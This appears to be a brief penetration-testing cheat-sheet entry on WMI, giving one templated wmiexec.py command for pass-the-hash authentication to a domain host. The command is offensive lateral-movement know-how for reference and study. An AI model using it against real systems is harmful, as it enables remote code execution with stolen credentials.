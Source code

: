 # WMI

## Pass the Hash

`wmiexec.py -hashes ":<hash>" -dc-ip <ip> <user>@<host>.<domain>`

tags: #wmi 
